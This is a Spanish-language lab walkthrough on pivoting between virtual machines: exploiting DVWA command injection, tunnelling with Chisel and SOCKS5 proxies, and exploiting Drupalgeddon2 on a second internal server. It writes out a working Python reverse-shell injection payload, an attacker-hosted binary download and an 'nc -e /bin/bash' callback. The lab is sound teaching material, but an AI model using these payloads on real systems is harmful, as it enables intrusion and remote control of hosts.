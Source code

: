 ```yaml
---
title: Practica de pivotaje
description: En está pagina vamos a explicar como se hizo el pivotaje
published: true
date: 2024-12-30T11:44:25.381Z
tags: 
editor: markdown
dateCreated: 2024-12-20T19:29:42.236Z
---
```


# Práctica pivotaje
Bienvenido a la práctica de la máquina del pivotaje.
## Explicación
La práctica que vamos consiste en un pivotaje entre maquinas vulneradas.

### Requisitos
Debemos tener tres maquinas virtuales:
1. Máquina Kali o máquina Hacker, desde donde querremos infiltrarnos.
2. Servidor 1: Servidor DVWA en un Ubuntu Server.
3. Servidor 2: Servidor Devion7 en un Oracle.

Además deberemos tener dos redes NATs:
1. Red Kali - Dvwa
2. Red Dvwa - Devion7

### Configuración de DVWA
>  Partimos con que ya se ha instalado las máquinas necesarias y se han establecidos los requisitos correctamente.
{.is-info}

Dentro de la máquina DVWA, deberemos acudir a la ruta "**/etc/apach2/ports.conf**", aquí deberemos escribir:
`Listen 127.0.0.1:8000`

Tras esto acudiremos a la ruta "**/etc/apache2/sites-available**" y crearemos la carpeta "001-router.conf"
```bash
mkdir 001-internal.conf
```

Dentro de esta carpeta deberemos escribir lo siguiente:
```
<VirtualHost 127.0.0.1:8000>
	ServerName internal.cyberlab.local
  DocumentRoot /var/www/internal
 </VirtualHost>
```

Tras hecho esto, podremos hacer el comando:
```
sudo a2ensite 001-internal.conf
```

Y después deberemos hacer un:
```console
systemctl reload apache2
```

Con esto habremos creado un servicio en el puerto 8000, y será visible siempre y cuando hagamos una lectura en locahost:8000, esto lo usaremos más adelante para comprobar efectivamente que se ha hecho correctamente el pivotaje.

Haremos solo haremos una carpeta en la ruta indicada:
```console
vim /var/www/internal/index.html
```

Aquí pondremos lo que querramos para verificar que se ha hecho el pivotaje, un buen ejemplo puede ser:
\<h1> HOLAAA </h1\>


## Ejecución
### Control de DVWA
Lo primero que haremos será establecer un puerto de escucha en Kali, para ello haremos un: 
```console
nc -lvnp (Puerto)
```
Tras esto, como Kali, deberemos acudir al apartado de DVWA:Command Injection. Aquí deberemos escribir lo siguiente:
```console
127.0.0.1;export RHOST="IPKALI";export RPORT=PUERTOKALI;nohup python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' &
```

Esto lo hemos sacado de las siguiente URL: https://www.revshells.com
> En caso de error, comprueba que la dificultad está en low, el host y el puerto.
{.is-info}

Tras esto habremos hecho una shell reversa la cual tenemos total acceso y control. Ahora vamos a intentar crear un tunnel de comunicación entre la Kali y el DVWA, para ello vamos a usar Chisel. Lo primero que haremos será descargarnos el software en: https://github.com/jpillora/chisel/releases

Y nos descargaremos aquel fichero que ponga Linux_amd64.gz

Una vez descargado, lo descomprimimos y lo haremos un ejecutable. Eso lo haremos con los siguientes comandos:
```console
gzip -d chisel_1.10.1_linux_amd64.gz
mv chisel_1.10.1_linux_amd64 chisel
chmod +x chisel
```

Este archivo lo deberemos subir a la máquina de DVWA, para ello deberemos crear un servicio web en Kali con el siguiente comando:
```console
python3 -m http.server
```
> Importante ejecutar este comando en la misma cartepa donde esta el chisel descargado.
{.is-info}

Y ahora en la máquina de DVWA, vamos a poner:
```console
curl http://(maquinaKali)/chisel -o chisel
```

Si hacemos esto de forma correcta, la máquina DVWA habrá descargado el fichero, podemos comprobarlo con un ls.

Perfecto, ahora vamos a modificar el Socks5. Esto es para poder establecer una conexión muchisimo mas comoda entre Kali y DVWA, para ello vamos a tener que modificar lo siguiente:
```console
nano /etc/proxychains4.conf
```
Deberemos fijarnos que en la primera zonas de texto, esté presente **strict_chain** y después al final deberemos comentar la linea **socks4 127.0.0.1 9050**, y escribiremos en su lugar **socks5 127.0.0.1 1080**.
![image.png](/imagen_hacking_pivotaje_1.png)

Luego en la herramienta de FoxyProxy, vamos a añadir una nueva entrada con lo siguiente:
![imagen_hacking_pivotaje_2.png](/imagen_hacking_pivotaje_2.png)

> No lo activamos todavia
{.is-warning}

Tras esto, tendremos listo un proxy que puede analizar todas las peticiones como si estuvieramos viendolo desde el seridor DVWA.

Lo siguiente que haremos será establecer la conexión con chisel para poder, para ello en Kali escribiremos: 
```console
./chisel server -p 4000 --reverse
```

En nuestra maquina vulnerada (DVWA), deberemos escrbir lo siguiente:
```console
./chisel client (ip kali):4000 R:8000:127.0.0.1:8000
```

Si todo va bien, desde nuestra maquina local podremos buscar el servidor local que hicimos en DVWA:
![imagen_hacking_pivotaje_3.png](/imagen_hacking_pivotaje_3.png)


Ahora vamos a usar el socks5 que configuramos anteriormente. Para ello deberemos poner en nuestra maquina local:
```console
./chisel server -p 4000 --reverse --socks5
```

Y en nuestra maquina DVWA, vamos a poner:
```console
./chisel server -p 4000 --reverse R:socks
```


Tras esto, si activamos el proxy, podremos hacer la busqueda del servidor directametne en el navegador.

### Entrar en Debian
Para poder tener acceso a este nuevo servidor, como ya tenemos una shell ocupada con la comunicaciones, vamos a abrir un nueva shell. Para ello deberemos hacer los mismos paso que hicimos anteriormente (nc -lnvp).
Una vez tengamos una nueva shell, vamos a intentar descubrir las IP locales en esta red, para ello primero hacemos:
```script
ip a
```

Y una vez sepamos el rango de la IP, en mi caso 10.0.0.6/24. Vamos a poner un pequeño script en la máquina DVWA para detectar el resto de IPs, el escript es el siguiente:
```bash
for j in $(seq 1 10);do ping -c 1 10.0.3.$j > /dev/null && echo "host activo 10.0.3.$j";done
```
Esto nos devolverá un listado grande de IPs por lo que deberemos deducir cuál es el server, para ello podemos hacer uso de nmpa con:
```bash
proxychains4 -q nmap -sT -Pn 10.0.3.4
```
> Ir probando la IP con cada uno de los resultados para ver los puertos disponibles.
{.is-info}

Cuando entramos en el website, podemos descrubir que es un servidor Drupal con una vulnerabilidad de Drupalgeddon2. Por lo que podemos usar el exploit (Disponible en GitHub), para poder explotarlo.

Una vez tengamos el exploit disponible vamos a realizar lo siguiente:
- En una terminal de DVWA vamos a poner:
```bash
./chisel client (kali):4000 0.0.0.0:9999:(kali):9999
```
- En una terminal de kali:
```bash
nc -lnvp 9999
```
- En otra terminal de kali, sin cerrar la anterior:
```bash
proxychains 4 -q python2 exploit.py -h http://(ip/ dc-1) -c 'nohup nc -e /bin/bash (Ip Dvwa) 9999 &'
```